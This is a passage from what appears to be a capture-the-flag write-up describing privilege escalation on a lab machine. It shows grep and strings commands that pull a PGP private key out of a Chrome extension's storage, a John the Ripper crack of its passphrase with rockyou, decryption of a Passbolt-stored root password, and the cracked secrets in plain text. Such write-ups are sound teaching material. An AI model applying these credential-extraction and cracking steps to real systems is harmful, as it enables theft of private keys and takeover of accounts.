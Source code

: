 ```
```

The browser configuration can be found in the users home directory in _.config/google-chrome_.
When searching for the PGP header, there are some results from JavaScript files and one binary file:
```
grep -R "BEGIN PGP PRIVATE KEY" .
```
```
Binary file ./Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log matches
```

Reading the strings and extracting the private PGP key:
```
strings "Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log"
```

When trying to import the private key of _eddie_, it asks for a password:
```
gpg --import eddie_pgp.priv
```

Extracting the hash of the private key and cracking it with **JohnTheRipper**:
```
gpg2john eddie_pgp.priv
```
```
john eddie_pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while, the password gets cracked and it is possible to import the key.
> merrychristmas

With this password, the **PGP message** from the database can be decrypted:
```
gpg -d passbolt.gpg
```
```
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}
```

This password can now be used with the commands `su -` to switch users to root!
